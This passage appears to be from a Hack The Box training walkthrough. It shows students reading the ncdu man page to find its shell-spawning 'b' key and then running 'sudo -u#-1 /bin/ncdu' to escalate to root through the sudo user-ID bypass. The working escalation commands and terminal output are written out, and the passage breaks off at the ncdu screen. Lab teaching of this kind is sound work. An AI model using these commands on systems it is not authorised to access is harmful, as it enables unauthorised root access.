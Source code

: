 Identifying that the `/bin/ncdu` binary can be ran as root, students need to check the man pages of the binary to identify possible privilege escalation vectors:

Code: shell

```shell
man -P cat ncdu
```

```
htb-student@ubuntu:~$ man -P cat ncdu

NCDU(1)                                         ncdu manual                                         NCDU(1)

NAME
       ncdu - NCurses Disk Usage

SYNOPSIS
       ncdu [options] dir

DESCRIPTION
       ncdu (NCurses Disk Usage) is a curses-based version of the well-known 'du', and provides a fast way

<SNIP>

       i   Show information about the current selected item.

       r   Refresh/recalculate the current directory.

       b   Spawn shell in current directory.

           Ncdu will determine your preferred shell from the "NCDU_SHELL" or "SHELL" variable (in that
           order), or will call "/bin/sh" if neither are set.  This allows you to also configure another
           command to be run when he 'b' key is pressed. For example, to spawn the vifm(1) file manager
           instead of a shell, run ncdu as follows:
<SNIP>
```

Option `b` will spawn a shell in the current directory. Now, students need to run `/bin/ncdu` with sudo, while specifying user ID `-1` (which processes into `0`, or the root user):

Code: shell

```shell
sudo -u#-1 /bin/ncdu
b
```

```
htb-student@ubuntu:~$ sudo -u#-1 /bin/ncdu

ncdu 1.14.1 ~ Use the arrow keys to navigate, press ? for help                                                
--- /home/htb-student ----------------------------------------------------------------------------------------
    4.0 KiB [##########] /.cache                                                                              
@   0.0   B [          ]  .bash_history
```

